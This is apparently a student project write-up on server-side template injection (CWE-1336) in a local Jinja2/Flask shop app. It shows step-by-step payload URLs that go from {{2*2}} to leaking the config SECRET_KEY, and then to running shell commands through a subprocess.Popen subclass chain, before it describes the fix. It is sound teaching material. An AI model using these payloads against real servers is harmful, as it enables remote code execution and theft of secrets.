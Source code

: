 # Analysis CWE-1336: Improper Neutralization of Special Elements Used in a Template Engine

## Introduction 
Many web applications use template engines that allow developers to insert externally-influenced values into free text or messages in order to generate a full web page, document, message, etc. Such engines include Twig, Jinja2, Pug, Java Server Pages, FreeMarker, Velocity, ColdFusion, Smarty, and many others - including PHP itself. Some CMS (Content Management Systems) also use templates.

Template engines often have their own custom command or expression language. If an attacker can influence input into a template before it is processed, then the attacker can invoke arbitrary expressions, i.e. perform injection attacks. For example, in some template languages, an attacker could inject the expression "{{7*7}}" and determine if the output returns "49" instead. The syntax varies depending on the language.

We our case we are using Jinja2 to generate this templates.

## Example

We can search for products based on a url , i.e ```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category=Drinkware``` . But we can exploit this since our category field is vulnerable to SSTi.
The link ```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{2*2}}``` returns the following result.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/81135b32-37f2-4e2c-ad74-237fff2f3e06)

As we can see the category is 4 the result of 2*2. But this raises the question who did this calculation and why? The answer is that the server did , so that means that we are executing code on the server and the server ran the code for the calculation because ```{{ }}``` signals to Jinga2 to render something that it in our case the result of 2\*2.
If we try the link ```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{print("Hi")}}``` we will see something curious.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/e410f795-abcf-4bfe-bc9e-1eaca2c0e50e)

This error is the result of the template engine running in a sandbox where we cant do function calls directly i.e we cant do ```print("Hi")```.
So what do we have access to? We at least have access to numbers as we show above , but also strings , list , dict , tuple , some variables like config , request .

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{%20config%20}}``` returns the following result.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/f2ed6d6b-6e34-4d5a-848e-b0b83b6cf40a)

In here we have access to something we probably shouldnt have, namely 'SECRET_KEY': 'dev'.

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{%20dict.__base__.__subclasses__()%20}}``` returns the following result.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/3b00e088-2795-453d-ae84-925a4d0c3d28)

What happened here is that we are running this piece of code ```dict.__base__.__subclasses__()```. ```dict``` is a class and ```dict.__base__``` returns the base class of ```dict``` which is ```Object```. Then we basicly do ```Object.subclasses()``` which returns a list of all classes ( since all classes come from the ```Object``` class). And this has give us the opportunity to access hundreds of new classes and functions in those classes , and have some fun with them. ```{{dict.__base__.__subclasses__()[351]}}``` is gonna give us ```<class 'subprocess.Popen'>``` which spawn some process. ( the index to find this class may vary )

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{dict.__base__.__subclasses__()[351](%22ls%20%22,shell=True,stdout=-1).communicate()[0].strip()}}```

Lists the file on the directory with ```ls```.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/0d2e307a-cb52-4064-af3a-f7c59ddf43f7)

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{dict.__base__.__subclasses__()[351](%22cat%20__init__.py%22,shell=True,stdout=-1).communicate()[0].strip()}}```

Shows the contents of ```__init__.py``` which is source code of our website.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/b29ae7e0-eeb9-423e-861a-06937e28156c)

At this point we have access to ```bash``` commands and we can go some damage to the server.

## Weak code

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/f18d3a42-f402-4011-a008-cafd5530d711)

On this line we are calling rendering category as a template but we never check if category is safe to parse.

## Fix 

- Category shouldnt be rendered as a template it should be only treated as text to inject in some template never a template.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/f427b211-2250-44d1-a925-e07b80728718)

- We if we really need to render Category has a template we could also validade that category is something safe to render. 









